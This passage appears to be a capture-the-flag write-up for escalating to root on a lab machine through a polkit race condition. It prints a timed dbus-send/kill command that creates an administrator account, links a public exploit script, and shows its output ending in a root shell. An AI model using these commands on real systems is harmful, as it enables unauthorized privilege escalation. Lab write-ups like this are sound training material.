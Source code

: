 3. The vulnerability is triggered by starting a dbus-send command but killing it while polkit is still in the middle of processing the
request. I like to think that it’s theoretically possible to trigger by smashing Ctrl+C at just the right moment, but I’ve never succeeded,
so I do it with a small amount of bash scripting instead. First, you need to measure how long it takes to run the dbus-send command
normally (see above)
4. Takes about 58 millseconds, so set the following bash script:
```Console
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.008s ; kill $!
```
  * Does not seem to be working
  * Found [this POC](https://github.com/Almorabea/Polkit-exploit) to exploit Polkit
  * Downloaded the python script and ran it on target machine:

```Console
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

bash: cannot set terminal process group (77967): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper shm]# whoami
root
[root@paper shm]#
```
 * Root flag: d16[--------------------------]
